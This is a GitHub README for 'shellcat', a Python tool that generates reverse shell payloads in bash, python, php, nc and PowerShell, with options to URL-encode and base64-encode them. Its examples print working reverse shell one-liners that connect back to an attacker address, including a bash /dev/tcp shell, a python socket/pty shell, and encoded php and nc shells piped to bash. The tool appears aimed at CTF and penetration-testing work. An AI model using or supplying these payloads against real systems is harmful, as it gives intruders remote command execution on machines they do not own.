 # shellcat

shellcat is a python tool for generating reverse shell payloads. It supports a variety of shell types, including bash, python, php, powershell, and more. It also provides options for URL encoding, Base64 encoding, writing the payload to a file, and copying the payload to the clipboard.

## Installation
### Prerequisites
Before installing shellcat, make sure you have `xclip` installed on your system. This is necessary for clipboard functionality. You can install xclip using the following command:

```bash
sudo apt-get install xclip
```

### Installing Shellcat via pip
```bash
pip3 install shellcat
```
After installation, you can start using shellcat by simply typing `shellcat` in your terminal.

### Installation from GitHub Repository

Clone the repository:

```
git clone https://github.com/seriotonctf/shellcat.git
```

Navigate to the shellcat directory:

```
cd shellcat
```

Install the required Python packages:

```
pip3 install -r requirements.txt
```

## Usage

```
python3 shellcat.py <shell_type> <ip> <port> [options]
```

```
usage: shellcat.py [-h] [-e] [-b] [-w FILENAME] [-c] shell_type ip port

Generate reverse shell payload

positional arguments:
  shell_type                     Type of the shell (bash, python, php, nc, powershell, ...)
  ip                             IP address of the attacker
  port                           Port to listen on

options:
  -h, --help                     show this help message and exit
  -e, --encode                   URL encode the payload
  -b, --base64                   Base64 encode the payload
  -w FILENAME, --write FILENAME  Write the payload to a file
  -c, --copy                     Copy the payload to clipboard
```

## Examples

Generate a bash reverse shell payload:

```bash
➜  python shellcat.py bash 10.10.10.10 1234
[+] Payload: bash -i >& /dev/tcp/10.10.10.10/1234 0>&1
```

Generate a python reverse shell payload, URL encode it, and copy it to the clipboard:

```bash
➜  python shellcat.py python 10.10.10.10 1234 -e -c
[+] Payload: python3+-c+%27import+socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%2210.10.10.10%22%2C1234%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B+os.dup2%28s.fileno%28%29%2C1%29%3Bos.dup2%28s.fileno%28%29%2C2%29%3Bimport+pty%3B+pty.spawn%28%22bash%22%29%27
```

Generate a php reverse shell payload, Base64 encode it, and write it to a file:

```bash
➜  python shellcat.py php 10.10.10.10 1234 -b -w shell.php
[+] Payload: echo cGhwIC1yICckc29jaz1mc29ja29wZW4oIjEwLjEwLjEwLjEwIiwxMjM0KTtleGVjKCIvYmluL3NoIC1pIDwmMyA+JjMgMj4mMyIpOyc= | base64 -d | bash
[+] Payload written to shell.php
```

Generate a nc reverse shell payload, URL encode it, Base64 encode it, write it to a file, and copy it to the clipboard:

```bash
➜  python shellcat.py nc 10.10.10.10 1234 -e -b -w payload.txt -c
[+] Payload: echo bmMrLWUrJTJGYmluJTJGc2grMTAuMTAuMTAuMTArMTIzNA== | base64 -d | bash
[+] Payload written to payload.txt
```

Generate a PowerShell reverse shell payload by passing the tun0 interface
```bash
➜  python3 shellcat.py powershell tun0 1234
[+] Payload: powershell -ec BASE64_ENCODED_PAYLOAD
```
